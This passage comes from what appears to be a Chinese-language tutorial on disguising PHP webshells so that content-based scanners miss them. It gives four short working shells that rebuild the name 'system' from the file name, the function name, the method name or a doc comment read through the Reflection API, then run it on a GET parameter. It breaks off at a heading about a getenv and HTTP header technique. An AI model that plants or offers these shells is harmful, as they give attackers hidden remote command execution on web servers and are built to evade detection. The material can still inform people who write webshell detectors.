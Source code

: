#### 利用文件名

一般webshell是通过文件内容来查杀，因此我们可以利用一切非文件内容的可控值来构造webshell，譬如文件名

```php
<?php
substr(__FILE__, -10,-4)($_GET['a']);
?>
```

同理，除了文件名，还有哪些我们很容易可以控制的值呢？

函数名也可。

```php
<?php 
function systema(){
    substr(__FUNCTION__, -7,-1)($_GET['a']);
}
systema();
```

同理方法名也可

```php
<?php 
class test{
    function systema(){
        substr(__METHOD__, -7,-1)($_GET['a']);
    }
}
$a = new test();
$a->systema();
```

还有类名 `__CLASS__` 什么的就不再多说了。

#### 利用注释

`PHP Reflection API` 可以用于导出或者提取关于类 , 方法 , 属性 , 参数 等详细信息 . 甚至包含注释的内容。

```php
<?php
/**
*system
*/
highlight_file(__FILE__);
class TestClass {}

$rc = new ReflectionClass('TestClass');
#echo $rc->getDocComment();
echo substr($rc->getDocComment(),-9,-3)($_GET['l1nk']);
?>
```

#### 利用getenv+Apache + HTTP header
